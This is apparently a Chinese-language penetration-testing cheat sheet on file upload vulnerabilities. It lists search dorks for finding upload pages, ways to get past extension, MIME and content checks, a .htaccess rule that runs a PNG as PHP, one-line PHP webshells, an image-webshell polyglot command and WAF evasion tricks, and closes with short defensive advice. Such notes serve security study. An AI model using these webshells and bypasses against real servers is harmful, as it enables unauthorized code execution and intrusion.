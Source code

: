 ## 一、漏洞原理

### 1、简介

```python
# 解释
文件上传功能没有对上传的文件做合理严谨的过滤，导致用户可以利用此功能，上传能被服务端解析执行的文件，并通过此文件获取执行服务端命令的能力
```

### 2、详情

```python
# Javascript检测
readBuffer
check
```

```python
# 后端检测
1、文件名
2、MIME
3、文件内容
```

```python
# 二次渲染
1、文件头
2、文件内容
3、文件名
```



## 二、漏洞特征

### 1、场景

```python
头像更改
文章编辑(附件上传)
```

### 2、发现

```python
# Google Hacking
inurl:upload_file.php
inurl:upfile.php
```

```python
# Fofa（CVE）
"Apache Tomcat 8.5.19"		# CVE
```



## 三、利用条件

### 1、存在上传点

### 2、PHP/ASP/JSP语言



## 四、绕过防护

### 1、前端

```python
# Javascript
1、禁用Javascript，如火狐浏览器的NoScript
2、删除/修改对应JS代码，如F12/Firbug
3、修改数据包，如Burpsuite
```

### 2、后端

​	2.1、MIME文件类型

- 修改数据包Content-type

```python
# 格式
text/plain				纯文本
text/html				HTML文档
text/javascript			Javascript代码
application/xhtml+xml	 XHTML文档
image/gif				GIF图片
image/jpeg				JPEG图片
image/png				PNG图片
image/mpeg				MPEG动画
application/octet-stream 二进制数据
application/pdf			PDF文档
```

​	2.2、文件名

- 黑名单

```python
# 1、寻找黑名单之外的后缀名
jsp			[jspx,jspf,jsw,jsv]
asp			[asa,cer,cdx,htr,web.config]
aspx		[ashx,asmx,asax,ascx]
php			[php1,php2,php3,php4,php5,phtml,pht,php3p]
perl		[pl,pm,cgi,lib]
Coldfusion	 [cfm,cfml,cfc,dbm]
# 2、大小写
php版本 < 5.3.39
# 3、双写
# 4、Windows命名机制
shell.php.
shell.php空格
shell.php:1.jpg
# 5、上传配置文件
apache的.access
```

- 白名单

```python
# 文件包含
```

```python
# 截断上传
条件：PHP版本 < 5.3.4
方法：%00
```

```python
# 解析漏洞
# 1、Apache
自身特性
	解释：Apache文件规则是从右到左判断解析，如果后缀名为不可识别文件，就再往左判断
.htaccess
	解释：.htaccess文件可以定义目录的配置方法
    用法：当前目录如果存在x.png，将其解析成php代码执行
    	<FilesMatch "x.png">
        SetHandler application/x-httpd-php
        AddHandler php5-script .png
        </FilesMatch>
# 2、Windows
自身特性
	解释：旧版Windows Server对于不符合操作系统命名规范的文件，会将字符自动去除
    用法：
    	file.php[空格]	->	file.php
        file.php.		  ->  file.php
        file.php:1.jpg	  ->  file.php
```

​	2.3、文件内容

- 修改文件头

```python
# 例如
JPG: FF D8 FF E0 00 10 4A 46 49 46
GIF: 47 49 46 3839 61(GIF89a)
PNG: 89 50 4E 47
```



### 3、二次渲染

​	3.1、文件头

```python
# 文本编辑器
	在内容最前面加图片文件头（如GIF89a;）
# 二进制文本编辑器
	在完整图片末尾加webshell
# windows的copy命令
	copy a.png /b + a.php /a 3.php
```

​	3.2、文件内容

```python
# 一句话木马变形
<?php $_GET['a']($_GET['b']);?>
```

```python
# 执行其他命令
# 1、文件包含
$filename=$_GET['a'];include($filename);
# 2、重命名任何文件
$reg='c'.'o'.'p'.'y'
$reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
# 3、Preg_replace函数
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
```

​	3.3、绕过WAF

```python
# 垃圾数据
如服务器允许文件大小上限为1M，此时上传一个大文件，前面1M的内容为垃圾数据，
```

```python
# post/get
条件：WAF规则是只检测GET/POST请求类型的数据包，此时修改请求方法为REQUEST绕过
```

```python
# Filename
条件：早期版本的安全狗可多加一个filename绕过
```



## 五、实战思路

### 1、寻找上传点

### 2、获取文件保存地址

### 3、检测防御类型



## 六、防护措施

1、后端使用白名单校验文件类型

2、文件上传的目录设置为不可执行

3、使用随机数改写文件名和文件路径

4、单独设置文件服务器域名
